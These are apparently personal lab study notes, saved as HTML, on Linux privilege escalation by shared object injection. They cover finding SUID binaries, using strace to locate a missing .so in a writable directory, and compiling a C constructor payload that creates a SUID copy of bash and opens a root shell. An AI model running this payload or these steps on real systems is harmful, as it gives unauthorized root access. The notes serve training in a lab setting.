

<!DOCTYPE html  PUBLIC '-//W3C//DTD XHTML 1.0 Transitional//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd'><html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type"/>
<title>Shared Object Injection</title>
</head><body><b>Escalation via Shared Object Injection</b> 
 
 
Challanging and required deep diving to find and exploit 
 
 
Start with the permission find command 
 
<b>find / -type f -perm -04000 -ls 2&gt;/dev/null</b> 
 
This will dsiaply a list of all files that have the <b>S bit set 
</b><b> 
</b>Step 1. Check GTFO bins for a easy win 
 
If nothing available, move on to trying to find an oportunity to perform a SO (Shared Object) injection 
 
We are looking for something we can inject (file) or overwrite 
 
Check potentail shares with <b>ls -la &lt;file&gt;</b> 
 
We will see s bit set on owner and group 
 
 
 
Certain tools would also identify this, IE Linpeas 
 
Normally we would try run this file to furtehr understand what its doing. 
 
This may require another tool such as, <b>strace</b>, a diagnotstic tool that will output what is happenioeng behind the scencs and interaction file is doing. 
 
syntax &gt; <b>strace &lt;file&gt; 2&gt;&amp;1 
</b><b> 
</b>We want to find where the file is outputting &quot;no such file or directory&quot; 
 
Narrow down 
 
syntax &gt; <b>strace &lt;file&gt; 2&gt;&amp;1 | grep -i -E &quot;open|access|no such file&quot; 
</b> 
 
 
We would enumare the list looking for an oportunity to 'overwrite' or inject our own malicious code. 
 
<b>ls -la &lt;file&gt; 
</b> 
Looking to confirm no such file or directory 
 
when confirmed. We will insert our malicious file in place of the missing file. When the shared object file is run against and searches again, this time instead of returning no such file or directory, a file will exist, our malicious code and it will execute it. 
 
Create the malicious file, use waht ever is avilable... nano, vim etc.. 
written in C 
 
call it the file you are replacing .c 
 
code 
 
<b>#include &lt;stdio.h&gt; 
#include &lt;stdlib.h&gt; 
 
static void inject() __attribute__((constructor)); 
 
void inject() {<ul><li style="list-style-type: none">system(&quot;cp /bin/bash /tmp/bash &amp;&amp; chmod +s /tmp/bash &amp;&amp; /tmp/bash -p&quot;);</li>
</ul>
</b><b>}</b><ul><li style="list-style-type: none"/>
</ul>
 
Note with this code. it copies Bash to tmp folder and uses that copy instead of affecting the live copy of bash. 
 
You may need to create the folders that may also be missing  
 
mkdir &lt;folders&gt; 
 
then complie .c 
 
gcc -shared -fPIC -o &lt;output file loc and name... the one you want to impersonate&gt; &lt;the .c file created&gt; 
 
 
<ul><li style="list-style-type: none"/>
</ul>
File is now compiled and replaced. Re run the original SUID file 
 
This should give you root. 
 
 
 
 
 
 
 
Detection 
 
Linux VM 
 
1. In command prompt type: find / -type f -perm -04000 -ls 2&gt;/dev/null 
2. From the output, make note of all the SUID binaries. 
3. In command line type: 
strace /usr/local/bin/suid-so 2&gt;&amp;1 | grep -i -E &quot;open|access|no such file&quot; 
4. From the output, notice that a .so file is missing from a writable directory. 
 
Exploitation 
 
Linux VM 
 
5. In command prompt type: mkdir /home/user/.config 
6. In command prompt type: cd /home/user/.config 
7. Open a text editor and type: 
 
#include &lt;stdio.h&gt; 
#include &lt;stdlib.h&gt; 
 
static void inject() __attribute__((constructor)); 
 
void inject() { 
  system(&quot;cp /bin/bash /tmp/bash &amp;&amp; chmod +s /tmp/bash &amp;&amp; /tmp/bash -p&quot;); 
} 
 
8. Save the file as libcalc.c 
9. In command prompt type: 
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c 
10. In command prompt type: /usr/local/bin/suid-so 
11. In command prompt type: id 
 
 
 
 
 
 
 
 
 
 
 
 
</body></html>